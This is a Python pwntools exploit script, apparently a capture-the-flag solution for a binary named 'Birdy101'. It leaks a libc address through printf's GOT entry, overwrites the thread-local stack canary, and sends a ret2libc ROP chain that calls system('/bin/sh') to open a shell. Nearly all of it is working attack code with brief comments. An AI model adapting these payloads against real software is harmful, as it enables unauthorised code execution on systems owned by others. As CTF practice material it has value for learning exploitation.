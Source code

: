 `exploit.py`
```python
from pwn import *

file = "./Birdy101"
libc = "./libc.so.6"

elf = ELF(file)
libc = ELF(libc)
rop_libc = ROP(libc)

# symbols and locations
PRINTF_GOT_ENTRY = elf.symbols["got.printf"]
PRINTF_LIBC_OFFSET = libc.symbols["printf"]
SYSTEM_LIBC_OFFSET = libc.symbols["system"]
BSS_LOCATION = elf.bss()

CHANGED_CANARY = b"TOMERRRR"

BIN_SH = next(libc.search(b'/bin/sh'))
RET_RDI = rop_libc.rdi.address
RETN = rop_libc.retn.address


def main():
    con = process("./Birdy101")

    # 1. We still don't use it. just something that wont crash
    con.send(p64(PRINTF_GOT_ENTRY))
    con.readuntil(b"Welcome ")
    printf_location = u64(con.read(6) + b'\0\0') # read 6 and add \0\0 because string is null terminated.
    libc_base = printf_location - PRINTF_LIBC_OFFSET

    # Wait for the read, gdb makes things slow or whatever
    time.sleep(3)

    payload =  cyclic(0x108) # Buffer + Buffer Pointer

    # 2. Using the vulnrability to get a shell
    payload += CHANGED_CANARY
    payload += b"FILLERRR" # will be loaded into rbp by leave instruction, disposable.
    payload += p64(libc_base + RET_RDI) # value passed by registers in x64
    payload += p64(libc_base + BIN_SH)
    payload += p64(libc_base + RETN)
    payload += p64(libc_base + SYSTEM_LIBC_OFFSET)

    # 3. Using the vulnrability to overwrite the canary
    payload = payload.ljust(0x910) # offset for overwriting fs:0x10
    payload += p64(BSS_LOCATION - 0x972)
    payload += cyclic(16) # offset of fs:0x10 to fs:0x28
    payload += CHANGED_CANARY
    con.send(payload)
    con.interactive()

if __name__ == "__main__":
    main()
```
